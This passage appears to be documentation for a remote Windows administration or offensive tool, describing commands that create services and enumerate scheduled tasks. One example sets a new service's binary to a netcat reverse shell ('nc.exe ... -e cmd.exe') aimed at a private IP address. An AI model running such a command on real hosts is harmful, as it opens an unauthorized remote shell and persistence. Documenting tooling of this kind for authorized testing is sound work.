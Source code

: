 **Example Usage:**
```
Example Usage: -b "C:\nc.exe 10.0.0.26 8080 -e cmd.exe"
```

### Arguments

- **`name`**: Specify the name of the new service
  - Required: Yes

- **`binary_path`**: Specify the binary path of the new service
  - Required: Yes

- **`display_name`**: Specify the display name of the new service
  - Required: Yes

- **`start_type`**: Specify the start type of the new service
  - Choices: auto, demand, system
  - Default: `demand`
  - Required: Yes

---

## `enumtasks`

**Description:** Enumerate scheduled tasks on the remote server

**Help:**
```
enumtasks [-h] [-n] [--filter FILTER]
Enumerate scheduled tasks on the remote server
```

**Example Usage:**
```
Example Usage: enumtasks --filter name=Microsoft OR enumtasks --filter folder=Windows OR enumtasks -n
```

### Arguments

- **`filter`**: Filter tasks by name or folder
  - Required: No

---

## `tasksenum`

**Description:** Enumerate scheduled tasks on the remote server

**Help:**
```
enumtasks [-h] [-n] [--filter FILTER]
Enumerate scheduled tasks on the remote server
```
